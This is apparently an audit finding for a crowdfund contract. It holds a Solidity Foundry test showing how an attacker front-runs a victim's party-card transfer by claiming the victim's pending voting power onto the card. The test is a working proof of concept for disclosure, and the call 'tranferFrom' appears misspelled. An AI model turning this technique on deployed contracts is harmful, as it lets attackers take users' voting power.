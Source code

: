 Add the following test to the `ReraiseETHCrowdfund.t.sol` test file. It shows how an attacker would perform such an attack:

```solidity
function test_FrontRunTransfer() public {
    ReraiseETHCrowdfund crowdfund = _createCrowdfund({
        initialContribution: 0,
        initialContributor: payable(address(0)),
        initialDelegate: address(0),
        minContributions: 0,
        maxContributions: type(uint96).max,
        disableContributingForExistingCard: false,
        minTotalContributions: 2 ether,
        maxTotalContributions: 3 ether,
        duration: 7 days,
        fundingSplitBps: 0,
        fundingSplitRecipient: payable(address(0))
    });

    address attacker = _randomAddress();
    address victim = _randomAddress();
    vm.deal(victim, 2.5 ether);
    vm.deal(attacker, 0.5 ether);

    // @audit-info the victim owns a party card
    vm.prank(address(party));
    party.addAuthority(address(this));
    party.increaseTotalVotingPower(1 ether);
    uint256 victimTokenId = party.mint(victim, 1 ether, address(0));


    vm.startPrank(victim);
    crowdfund.contribute{ value: 2.5 ether }(victim, "");
    vm.stopPrank();

    /* @audit-info
    The victim wants to transfer the party card, say to the attacker, and the attacker
    front-runs this by completing the crowdfund and claiming the victim's pending voting
    power to the existing party card
    */

    vm.startPrank(attacker);
    crowdfund.contribute{ value: 0.5 ether }(attacker, "");
    crowdfund.claim(victimTokenId,victim);
    vm.stopPrank();

    /* @audit-info
    when the victim's transfer is executed, he transfers also all of the voting power
    that was previously his pending voting power (effectively losing it)
    */
    vm.prank(victim);
    party.tranferFrom(victim,attacker,victimTokenId);
}
```
